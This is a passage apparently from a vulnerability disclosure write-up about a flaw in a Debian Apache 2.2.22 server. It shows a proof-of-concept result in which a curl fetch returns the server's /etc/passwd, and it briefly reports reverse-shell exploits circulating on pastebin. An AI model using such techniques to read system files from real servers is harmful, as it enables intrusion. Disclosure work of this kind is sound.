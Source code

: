 ```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
 webmaster@localhost and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>
```
and the fetch:

```shell
$ curl http://192.168.0.1/dumped_file

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

<a id="u2"></a> 
## Update 2 - New PoCs in the wild

Seeing some slick reverse shells now on pastebin. This is going to be nasty,
especially on embedded systems that aren't using busybox.
